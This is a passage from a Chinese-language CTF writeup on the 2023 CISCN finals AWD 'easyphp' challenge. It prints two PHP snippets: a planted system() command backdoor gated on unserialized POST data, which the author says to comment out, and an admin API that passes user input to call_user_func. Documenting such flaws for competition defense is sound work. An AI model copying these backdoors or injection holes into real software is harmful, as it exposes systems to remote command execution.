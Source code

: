 ```yaml
---
title: "2023 CISCN 总决赛 AWD & 渗透 Writeup"
date: 2023-07-27T19:33:55+08:00
lastmod: 2023-07-27T19:33:55+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


2023 CISCN 总决赛 AWD & 渗透 Writeup



## AWD

### easyphp

开局 D 盾扫出来两个 system 后门, 位于 1.php 和 index.php

```php
if(isset($_POST['user']))
{
    $_SESSION['user'] = unserialize($_POST['user']);
}
......
if($_SESSION['user']['usertype'] === "super"){
    system($_POST['cmd']);
    unset($_SESSION['user']);
}else{
    echo $_SESSION['user'];
}
```

注释掉就行了

然后 /admin/api.php 有个 `call_user_func`

```php
function getdo($field = 'do', $default = false)
{
    if (!isset($_GET['do'])) return $default;
    return $_GET['do'];
}
function getcid($field = 'cid', $default = false)
{
    if (!isset($_POST['cid'])) return $default;
    return $_POST['cid'];
}

$do = getdo();
$cid = getcid();
call_user_func($do,$cid);
```
